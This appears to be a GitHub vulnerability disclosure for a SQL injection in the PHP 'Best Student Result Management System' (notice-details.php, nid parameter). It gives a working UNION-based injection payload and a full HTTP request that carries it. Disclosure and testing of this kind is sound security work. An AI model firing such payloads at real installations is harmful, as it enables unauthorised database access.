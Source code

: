 # Best Student Result Management System by mayuri_k has SQL injection
BUG_Author：yimian

vendors: [https://www.sourcecodester.com/php/15653/best-student-result-management-system-project-source-code-php-and-mysql-free-download](https://www.sourcecodester.com/php/15653/best-student-result-management-system-project-source-code-php-and-mysql-free-download)

Vulnerability File: /upresult/upresult/notice-details.php?nid=

Vulnerability location: /upresult/upresult/notice-details.php?nid=, nid

dbname = upresult

[+] Payload: nid=2' UNION ALL SELECT NULL,NULL,NULL,CONCAT(0x61626364,0x31323334,0x71727374)-- - // Leak place ---> nid

```
GET /upresult/upresult/notice-details.php?nid=2%27%20UNION%20ALL%20SELECT%20NULL,NULL,NULL,CONCAT(0x61626364,0x31323334,0x71727374)--%20- HTTP/1.1
Host: localhost
sec-ch-ua: "Chromium";v="97", " Not;A Brand";v="99"
sec-ch-ua-mobile: ?0
sec-ch-ua-platform: "Windows"
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/97.0.4692.71 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Sec-Fetch-Site: none
Sec-Fetch-Mode: navigate
Sec-Fetch-User: ?1
Sec-Fetch-Dest: document
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Cookie: PHPSESSID=3thbvl3jh0h823b43vpautdf10
Connection: close
```

![image](https://github.com/623085881/pic/blob/main/%60OCCSWJZ%404V%24YY5%25HMT4EUQ.png)



